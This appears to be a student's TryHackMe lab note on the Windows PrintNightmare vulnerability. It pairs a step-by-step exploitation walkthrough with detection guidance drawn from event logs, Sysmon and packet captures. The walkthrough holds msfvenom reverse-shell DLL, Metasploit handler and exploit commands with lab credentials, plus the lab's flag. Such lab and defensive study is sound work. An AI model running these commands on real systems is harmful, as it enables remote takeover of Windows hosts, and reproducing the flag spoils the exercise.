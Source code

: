 # PrintNightmare


## Introduction
```
"A remote code execution vulnerability exists when the Windows Print Spooler service improperly performs privileged file operations. An attacker who successfully exploited this vulnerability could run arbitrary code with SYSTEM privileges. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights"
```

## Windows Print Spooler Service
- A service that runs on each computer system and manages the printing processes
- Manages print jobs, receives files to be printed, queueing them, and scheduling
- Makes sure to provide enough resources to the computers that send out print jobs
- Allows systems to act as print clients, administrative clients, or print servers
- Is enabled by defauly in all windows clients and servers, as it's necessary to have a print spooler service on the computer to connect to a printer
	- There are third party software and drivers provided by the printing manufacturers that would not require the spooler service to be enabled, but most companies prefer to utilize print spooler services
- Domain controllers mainly use print spooler service for printer pruning - process of removing the printers that are not in use anymore on the network and have been added as objects to active directory
	- This ensures that users can't reach out to non-existent printers

## Remote Code Execution Vulnerability
- What makes PrintNightmare dangerous?
	1. It can be exploited over the network; attacker doesn't need direct access to the machine
	2. The proof of concept was made public
	3. The print spooler service is enabled by default on domain controllers and computers with SYSTEM privileges

## Try it Yourself!
1. Install `impacket` from [here](https://github.com/cube0x0/impacket)
2. Install `pyasn1` (version > .0.4.2)
3. Download the [exploit from github](https://github.com/tryhackme/CVE-2021-1675)
4. Create a malicious dll with `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.46.254 LPORT=4444 -f dll -o malicious.dll`
5. Run metasploit and use these commands
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST VALUE
set LPORT VALUE
exploit
```
6. Host the dll on a smb server using impacket with `smbserver.py share /root/Desktop/share/ -smb2support `
7. Use `rpcdump.py @<ip address> | egrep 'MS-RPRN|MS-PAR' ` to check if the victim is vulnerable
8. Run the exploit with `python CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@192.168.0.200 '\\192.168.0.100\share\malicious.dll'`
```
python CVE-2021-1675.py -> you're instructing Python to run the following Python script. The values which follow are the parameters the script needs to exploit the PrintNightmare vulnerability successfully.
Finance-01.THMdepartment.local -> the name of the domain controller (Finance-01) along with the name of the domain (THMdepartment.local)
sjohnston:mindheartbeauty76@192.168.0.200 -> the username and password for the low privilege Windows user account.
\\ATTACKER_IP_ADDRESS\share\malicious.dll -> the location to the SMB path storing the malicious DLL.
```
9. Get the reverse shell and use `cat C:/Users/Administrator/Desktop/flag.txt` to get `THM{SiGBQPMkSvejvmQNEL}`

## Indicators of Compromise
```
The attacker would most likely use rpcdump.py to scan for vulnerable hosts. After finding the vulnerable print server, the attacker can then execute the exploit code (similar to the Python script in the previous task), which will load the malicious DLL file to exploit the vulnerability. More specifically, the exploit code will call the pcAddPrinterDriverEx() function from the authenticated user account and load the malicious DLL file in order to exploit the vulnerability. The pcAddPrinterDriverEx() function is used to install a printer driver on the system.
```
- A few things to look for:
```
Search for the spoolsv.exe process launching rundll32.exe as a child process without any command-line arguments
Considering the usage of the pcAddPrinterDriverEx() function, you will mostly find the malicious DLL dropped into one of these folders %WINDIR%\system32\spool\drivers\x64\3\ folder along with DLLs that were loaded afterward from %WINDIR%\system32\spool\drivers\x64\3\Old\ (You should proactively monitor the folders for any unusual DLLs)
Hunt for suspicious spoolsv.exe child processes (cmd.exe, powershell.exe, etc.)
The attacker might even use Mimikatz to perform the attack, in this case, a print driver named ‘QMS 810’ will be created. This can be detected by logging the registry changes (e.g., Sysmon ID 13).
Search for DLLs that are part of the proof-of-concept codes that were made public, such as MyExploit.dll, evil.dll, addCube.dll, rev.dll, rev2.dll, main64.dll, mimilib.dll. If they're present on the endpoint, you can find them with Event ID 808 in Microsoft-Windows-PrintService.
```

## Detection: Windows Event Logs
- Windows event logs - detailed records of security, system, and application notifications created by the OS
- The logs that are related to Print Spooler:
	- Microsoft-Windows-PrintService/Admin
	- Microsoft-Windows-PrintService/Operational
- Detect PrintNightmare artifacts by looking at the endpoints events or windows event logs
```
Microsoft-Windows-PrintService/Operational (Event ID 316) - look for "Printer driver [file] for Windows x64 Version-3 was added or updated. Files:- UNIDRV.DLL, AddUser.dll, AddUser.dll. No user action is required.”
Microsoft-Windows-PrintService/Admin (Event ID 808) - A security event source has attempted to register (can detect unsigned drivers and malicious DLLs loaded by spoolsv.exe)
Microsoft-Windows-PrintService/Operational (Event ID 811) - Logs the information regarding failed operations. The event will provide information about the full path of the dropped DLL.
Microsoft-Windows-SMBClient/Security (Event ID 31017) - This Event ID can also be used to detect unsigned drivers loaded by spoolsv.exe.
Windows System (Event ID 7031) - Service Stop Operations (This event ID will show you unexpected termination of print spooler service).
```
- Can also use the system monitor (sysmon) to detect it
```
Microsoft-Windows-Sysmon/Operational (Event ID 3) - Network connection (Look for suspicious ports)
Microsoft-Windows-Sysmon/Operational (Event ID 11) - FileCreate (File creation events are being logged,  you can look for loaded DLLs in the Print Spooler’s driver directory: C:\Windows\System32\spool\drivers\x64\3)
Microsoft-Windows-Sysmon/Operational (Event IDs 23, 26) - FileDelete (You can hunt for deleted malicious DLLs)
```

## Detection: Packet Analysis
```
Packet captures (pcap) play a crucial role in detecting signs of compromise.

If you are not familiar with Wireshark, no worries. You can learn more about Wireshark and how to analyze the packet captures by joining the Wireshark 101 room. It will be a lot of fun!

Detecting the PrintNightmare attack, specifically to (CVE-2021-1675 and CVE-2021-34527) by analyzing the network traffic is not as easy as inspecting the artifacts like Windows Event Logs on the victim's machine. The attacker relies on adding a printer driver using DCE/RPC commands RpcAddPrinterDriver or RpcAddPrinterDriverEx.

DCE/RPC stands for Distributed Computing Environment/Remote Procedure Calls and is the remote procedure call that establishes APIs and an over-the-network protocol.  But what makes the detection of the attack harder is that there are legitimate uses for RpcAddPrinterDriver or RpcAddPrinterDriverEx commands, so you cannot always rely only on the network traffic analysis to be confident that the PrintNightmare attack occurred in your environment. According to Corelight, it can get even harder to detect, especially if the exploit wraps the DCE/RPC calls in SMB3 encryption. To identify the encrypted DCE/RPC calls, you need to somehow decrypt and decode the payloads, which is a time-consuming task.

Corelight also released a Zeek package that detects the printer driver additions over DCE/RPC commands that are not encrypted.
```
